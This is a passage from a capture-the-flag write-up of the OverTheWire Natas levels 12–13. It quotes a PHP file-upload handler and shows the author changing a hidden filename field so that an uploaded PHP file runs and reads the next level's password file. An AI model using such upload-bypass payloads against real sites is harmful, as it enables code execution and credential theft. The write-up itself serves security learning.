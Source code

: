 ``` php

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?> 
```

The code tests if the file satisfies the constraints and uploads it with a new name that's randomly generated. Then it gives you the link where you can find it: 

{% img center /images/overthewire/natas/upload.png 'upload' 'upload' %}

So I tried uploading a PHP file that would read the password for the next level:

``` plain
root@kali:~/Desktop# cat pass.php 
<?
echo(exec('cat /etc/natas_webpass/natas13'));
?>
```

But the extension is changed to a jpg, so the code doesn't get executed. Further in the HTML there is this line:

``` html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

I used Firebug to change the jpg extension to a php one and re-uploaded the file and this time it worked: <code>The file upload/g72k7zidu8.php has been uploaded</code>. Next I followed the link and inside was the password: <code>jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY</code>

### Level 13

{% img center /images/overthewire/natas/natas13.png 'natas13' 'natas 13' %}

Ok, this time they made a modification so that only jpg files can be uploaded..or so they claim. The code is the same as the last challenge, except for a new check:

``` php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```
